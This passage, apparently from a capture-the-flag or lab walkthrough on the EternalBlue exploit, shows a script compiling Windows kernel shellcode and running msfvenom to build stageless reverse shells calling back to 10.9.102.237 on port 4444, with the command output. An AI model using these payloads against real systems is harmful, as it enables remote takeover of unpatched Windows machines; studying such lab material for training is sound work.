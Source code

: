 Generating the malicious payload.   

> ```shell_prep.sh``` is a script that automates the creation of the payload, which comes with the downloaded repository.

```
❯ ./shell_prep.sh
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
Y
LHOST for reverse connection:
10.9.102.237
LPORT you want x64 to listen on:
4444
LPORT you want x86 to listen on:
4444
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
Type 0 to generate a staged payload or 1 to generate a stageless payload
1
Generating x64 cmd shell (stageless)...

msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.9.102.237 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Saved as: sc_x64_msf.bin

Generating x86 cmd shell (stageless)...

msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.9.102.237 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Saved as: sc_x86_msf.bin

MERGING SHELLCODE WOOOO!!!
DONE
```
